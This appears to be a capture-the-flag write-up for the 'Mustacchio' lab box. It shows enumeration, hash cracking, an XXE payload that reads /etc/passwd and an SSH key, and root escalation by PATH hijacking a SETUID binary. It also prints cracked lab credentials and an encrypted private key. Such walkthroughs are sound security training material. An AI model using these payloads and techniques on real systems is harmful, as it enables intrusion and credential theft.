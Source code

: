 # Mustacchio V2 Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
- 80: http. Apache httpd 2.4.18 ((Ubuntu))
- 8765: http. Nginx 1.10.3 (Ubuntu). Title: Mustacchio | Login

None of the versions appear to be vulnerable.

## Gobuster

### Port 80 - Blog
```
gobuster dir -e -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- /robots.txt (nothing useful)
- /custom

Looking in the custom directory found the css and js directories. js contained an SQL backup file users.bak which after running strings gave me the following hashed credentials:
**admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b**

### Port 8765 - Admin login
```
gobuster dir -e -u http://<ip>:8765 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- /auth (301 - Forbidden)
- /home.php (admin page)
- /index.php (login page)

## John the Ripper and Admin login

Running John the Ripper on the backup file hash quickly found the password:
```
john --wordlist=rockyou.txt hash
```
**admin : bulldog19**

This allowed me to login as admin at http://$ip:8765, which led me to an admin panel where I could add a comment to the website. Looking at the source code revealed 3 interesting things:

1) The comment 'Barry, you can now SSH in using your key!' 
2) The presence of a file '/auth/dontforget.bak'
3) The 'add comment' feature parses the input as xml code

Checking the dontforget.bak file returned some xml code:
```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>...</com>
</comment>
```

Using BurpSuite, I found that the data entered into the comment box is passed as an xml parameter. Providing the above code as a parameter mirrors the data back to me, a good indication there could be an XXE vulnerability.

## XXE to get the ssh key

I tested the following xml code to see if I could read the /etc/passwd file:
```
xml=<!DOCTYPE+replace+[<!ENTITY+name+SYSTEM+'file%3a///etc/passwd'>+]>
<comment>
++<name>%26name%3b</name>
++<author>Barry Clad</author>
++<com>...</com>
</comment>
```

And it worked! Three users have bash on the system: root, joe, and barry.
Previous information told me barry has an ssh key, so I looked in /home/barry/.ssh and found it

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

## John the Ripper to decrypt the ssh key

```
ssh2john key > johnkey
john --wordlist=rockyou.txt johnkey
```

This quickly cracked the credentials:
**barry : urieljames**

## SSH - First flag

```
chmod 600 key
ssh barry@$ip -i key
```

After giving the key the correct permissions I logged into ssh with barry's private key. This gave me the first flag from Barry's home directory.

## Privilege Escalation to root - SETUID and PATH exploitation

Looking for SETUID binaries:

```
find / -perm -u=s -type f 2>/dev/null 
```

Found an interesting file: **/home/joe/live_log**

Running strings shows it is using the tail command, so we could write our own in the /tmp directory and change PATH to run our own script instead.

```
cd /tmp
vim tail
export PATH=/tmp:$PATH
chmod +x /tmp/tail
cd /home/joe
./live_log
```

Where the new tail command contains the following script to simply invoke bash:
```
#!/bin/bash
/bin/bash
```

And now we have root! This works because live_log will look for the 'tail' command in the /tmp directory first, and execute our script which invokes bash. Since the file is SETUID, bash is invoked as the root user instead of barry, thereby escalating our privileges.

```
cd /root
cat root.txt
```
And now we have our final flag!
